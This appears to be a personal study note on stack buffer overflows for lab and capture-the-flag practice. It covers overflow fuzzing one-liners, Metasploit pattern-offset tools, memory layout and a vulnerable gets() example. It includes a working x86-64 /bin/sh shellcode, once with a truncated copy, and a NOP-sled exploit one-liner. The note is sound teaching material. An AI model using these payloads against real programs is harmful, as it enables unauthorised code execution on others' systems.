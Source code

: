 
Links to where to test buffer overflow:
https://tryhackme.com/r/room/bof1 (Linux, r2 and gdb)
https://tryhackme.com/r/room/bufferoverflowprep (Windows, Immunity debugger)
https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/ (VM ISO)


Buffer overflow is when vulnerable code writes over a bigger section of memory than it should.
The C functions gets() and strcopy() are examples of functions that doesn't check the available space before writing.

First we need an input to test for overflow. It can be any other kind of input (user input, arguments, network command, env var...).

We can then perform basic tests where we try different, increasing sizes, like
```sh
python -c "print 'A' * 64" | ./<program>
python -c "print 'A' * 100" | ./<program>
python -c "print('A' * 64 + '\x64\x63\x62\x61')" | ./<program>
echo -ne "12345678901234\x67\x05\x40\x0\x0\x0\x0\x0" | ./<program>
perl -e 'print "A"x64 . "\x24\x84\x04\x08"' | ./<program>

./<program> `python -c "print('A' * 64 + '\x64\x63\x62\x61')"`
./<program> 'echo -ne "12345678901234\x67\x05\x40\x0\x0\x0\x0\x0"'
```

When we find a buffer overflow vulnerability we need more information.
Hopefully we can run the program in a debugger or attach to a process with a GUI debugger like like edb (Linux) or Immunity debugger (Windows).
Tools: [[r2 (radare2)]], [[gdb]], [[objdump]], readelf, edb (preinstalled in Kali full), Immunity Debugger.


We want to see what part of the input we gave ends up where in memory.
	You can make a string to test with manually or..
	To do this metasploit has to helpful scripts. One to generate a non-repetitive string and one to give us the offset (position) of a part of this string.
		`/usr/share/metasploit-framework/tools/exploit/pattern-create.rb`
			`-l`, `--length <length>`         The length of the pattern
		    `-s`, `--sets <ABC,def,123>`   Custom Pattern Sets
		    `-h`, `--help`                             Show this message
			`./pattern_create.rb -l 500` creates a non-repetitive string with length 500
		`/usr/share/metasploit-framework/tools/exploit/pattern-offset.rb`
		    `-q`, `--query Aa0A`                 Query to Locate
		    `-l`, `--length <length>`        The length of the pattern
		    `-s`, `--sets <ABC,def,123>`  Custom Pattern Sets
		    `-h`, `--help`                            Show this message
			`./pattern_offset -l 500 -q 63413163` returns the position of the 0x63413163`

Exploring memory - the stack and the heap - add info

`python -c "print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)"`

`python -c "print('\x90'*30+'\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05'+'\x41'*60+'\xef\xbe\xad\xde')" | ./program`

![[Images/2022-03-24-00_14_45-Perlite.png]]

---

Shell code we can use

shell code - code to open a basic shell
```
\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3
```

the shell code disassembled (r2, aaa, pdf)
![[Images/Pasted image 20240809204245.png]]
A string containing the path to /bin/sh + 0x11 (random extra byte) is put in the RCX registry.
To get rid of the extra 0x11 rcx is first shifted one byte to the left and then to the right.
RCX is then pushed onto the stack.
Other requirements for the syscall to exectue the path are prepared and then the syscall is made.










---


"Hacking: The Art of Exploitation" is a pretty chunky book 



tool bofuzz

Memory layout
![[Images/KmWsaIs.png]]

#### The stack
- grows downwards
- contains
	- Program counter
	- Saved registers
	- Other info
- data is puched onto the stack and popped off

#### The heap
- grows upwards
- contains
	- dynamically assigned memory


#### Assembly

`push var`
- decrement stack pointer `rsp` by 8
- write var to where `rsp` points

`pop var`
- reads the value pointed to by `rsp`
- increment stack pointer `rsp` by 8

Each function has its own stack frame, where each new stack frame is allocated when a function is called, and deallocated when the function is complete (where)

rsp  stack pointer
rbp  frame pointer

Up to 6 arguments can be saved in registers; rdi, rsi, rdx
rcx, r8 and r9.Move can be stored in the stack frame.

Return values will be stored in rax.

---

![[Images/lqE6o0S.png]]

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int variable = 0;
  char buffer[14];

  gets(buffer);

  if(variable != 0) {
      printf("You have changed the value of the variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

When we enter up to 14 characters we get Try again. If we enter 15, we get You have..

Since the string is null terminated when we enter 14 characters the int will be overwritten toooo. (We tested this be changing the init value and test value to 1.)

